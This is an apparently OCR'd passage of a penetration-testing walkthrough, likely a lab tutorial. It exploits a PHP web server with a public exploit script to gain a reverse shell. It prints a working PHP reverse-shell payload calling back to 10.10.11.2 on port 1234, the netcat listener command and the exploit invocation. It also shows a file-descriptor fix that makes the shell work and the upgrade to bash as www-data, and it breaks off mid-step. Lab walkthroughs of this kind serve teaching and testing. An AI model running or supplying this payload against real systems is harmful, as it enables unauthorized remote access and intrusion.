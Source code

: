 Paste it within the PHP tags here.

```php
pwn_code = """<?php $sock=fsockopen("10.10.11.2",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>"""
```

Set up my Netcat listener here. And we should receive a reverse shell.

```
nc -nvlp 1234
```

```
python2 18836.py 10.2.19.172 80
```

It runs successfully. We don't get any error code. This is the HTTP response code here. 200 that means that it was processed just fine.

However, if we take a look at our Netcat listener, we get a connection, but we don't obtain a bash session or a reverse shell.

That could be because of a few issues. We can probably modify the descriptors here.

```
vim 18836.py
```

Get rid of the 3, and change that to a 4. And I'll do that for all the descriptors there.

```php
pwn_code = """<?php $sock=fsockopen("10.10.11.2",1234);exec("/bin/sh -i <&4 >&4 2>&4"); ?>"""
```

Set up a new Netcat listener.

```
nc -nvlp 1234
```

```
python2 18836.py 10.2.19.172 80
```

And we obtain a reverse shell. And in this case, we have a Bourne shell. So to obtain a bash session:

```
nc -nvlp 1234
sh-3.2$ /bin/bash -i
www-data@d1d6a9361621:/var/www$ 
```

And we've obtained access to the target system remotely via reverse shell. So we currently have access via the www-data user which makes sense, because we exploited the Apache. We exploited the web server technology. And as a result, we inherit the permissions under which PHP executes code, which in this case is www-data. This is currently unprivileged access, which is where we will then move on to post exploitation and privilege escalation.

We've been able to obtain access.

List all the contents of the `/var/www` directory:
